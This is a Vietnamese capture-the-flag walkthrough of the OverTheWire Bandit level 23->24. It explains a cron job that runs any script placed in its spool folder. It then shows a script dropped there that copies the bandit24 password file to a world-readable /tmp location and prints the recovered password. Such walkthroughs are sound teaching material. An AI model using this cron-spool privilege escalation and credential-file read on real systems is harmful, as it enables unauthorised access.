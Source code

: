 ### **Mục tiêu**

- Một cron job chạy **tự động mỗi phút** với quyền `bandit24`.
- Cron job này sẽ:
    - Truy cập thư mục `/var/spool/bandit24/foo`.
    - Chạy tất cả các **script** trong thư mục này nếu:
        - File thuộc quyền sở hữu của **bandit23**.
        - Script chạy không quá **60 giây** (`timeout -s 9 60`).
    - Sau khi chạy xong sẽ **xóa file script**.

- **Nhiệm vụ:**  
    Tạo một script, đặt nó vào thư mục trên. Script này sẽ đọc password của `bandit24` từ `/etc/bandit_pass/bandit24` và ghi ra một nơi mà `bandit23` có quyền đọc.

---

### **Cách tiếp cận**

1. **Kiểm tra thư mục chứa cron job**  
	Các cron job thường được lưu tại `/etc/cron.d/`.

```
bandit22@bandit:/etc/cron.d$ ls -l
total 40
-r--r----- 1 root root  47 Aug 15 13:16 behemoth4_cleanup
-rw-r--r-- 1 root root 123 Aug 15 13:09 clean_tmp
-rw-r--r-- 1 root root 120 Aug 15 13:16 cronjob_bandit22
-rw-r--r-- 1 root root 122 Aug 15 13:16 cronjob_bandit23
-rw-r--r-- 1 root root 120 Aug 15 13:16 cronjob_bandit24
-rw-r--r-- 1 root root 201 Apr  8  2024 e2scrub_all
-r--r----- 1 root root  48 Aug 15 13:17 leviathan5_cleanup
-rw------- 1 root root 138 Aug 15 13:17 manpage3_resetpw_job
-rwx------ 1 root root  52 Aug 15 13:19 otw-tmp-dir
-rw-r--r-- 1 root root 396 Jan  9  2024 sysstat
```

-> Và ta thấy file cronjob_bandit24.

2. **Đọc nội dung file cron job**

```
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

3. **Phân tích script**

```
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

**Phân tích:**

1. `myname=$(whoami)` → `myname` sẽ là `bandit24`.
2. `cd /var/spool/$myname/foo` → truy cập thư mục `/var/spool/bandit24/foo`.
3. Vòng lặp:
    - Chạy tất cả các file trong thư mục này (kể cả file ẩn).
    - Bỏ qua `.` và `..`.
    - Kiểm tra quyền sở hữu file:
        - Nếu file do `bandit23` tạo ra → chạy file bằng `timeout` với giới hạn **60 giây**.
    - Sau khi chạy xong → **xóa file**.

4. **Ý tưởng khai thác**

- Tạo một script do chính `bandit23` sở hữu, chứa lệnh đọc password của `bandit24` và ghi ra một thư mục mà `bandit23` có quyền truy cập.
- Đặt (`cp`) script này vào `/var/spool/bandit24/foo`.
- Chờ khoảng 1 phút, cron job sẽ:
    1. Thực thi script với quyền `bandit24`.
    2. Xóa script sau khi chạy.
    3. Lưu lại password ở nơi an toàn để `bandit23` đọc.

 5. **Thực hiện từng bước**

```
# Tạo thư mục chứa script
bandit23@bandit:/etc/cron.d$ mkdir /tmp/tomtony
bandit23@bandit:/etc/cron.d$ cd /tmp/tomtony
bandit23@bandit:/tmp/tomtony$ ls -l
total 0

# Mở Vi (vim) để chỉnh sửa script (ESC + :wq để save và esc)
bandit23@bandit:/tmp/tomtony$ vi tomtony.sh
bandit23@bandit:/tmp/tomtony$ cat tomtony.sh
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/tomtony/bd24.txt

bandit23@bandit:/tmp/tomtony$ ls -l
total 4
-rw-rw-r-- 1 bandit23 bandit23 65 Sep 24 14:32 tomtony.sh

# Cấp quyền cho thư mục
bandit23@bandit:/tmp/tomtony$ chmod 777 -R /tmp/tomtony 

bandit23@bandit:/tmp/tomtony$ ls -l
total 4
-rwxrwxrwx 1 bandit23 bandit23 65 Sep 24 14:32 tomtony.sh
bandit23@bandit:/tmp/tomtony$ cp tomtony.sh /var/spool/bandit24/foo

bandit23@bandit:/tmp/tomtony$ ls -l
total 8
-rw-rw-r-- 1 bandit24 bandit24 33 Sep 24 14:34 bd24.txt
-rwxrwxrwx 1 bandit23 bandit23 65 Sep 24 14:32 tomtony.sh

bandit23@bandit:/tmp/tomtony$ cat bd24.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

### **Các lệnh đã dùng**

```
# 1. Tạo thư mục tạm
mkdir /tmp/tomtony
chmod 777 -R /tmp/tomtony

# 2. Viết script khai thác
vi tomtony.sh

# Nội dung:
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/tomtony/bd24.txt

# 3. Đưa script vào thư mục cron job
cp tomtony.sh /var/spool/bandit24/foo

# 4. Sau 1 phút, đọc password
cat bd24.txt
```

### **Kết quả**

```
bandit23@bandit:/tmp/tomtony$ cat bd24.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

Mật khẩu cho level tiếp theo là:

`gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`


--- 

### **Xem thêm

Cách leo thang đặc quyền ([privilege escalation](https://www.strongdm.com/blog/linux-privilege-escalation)).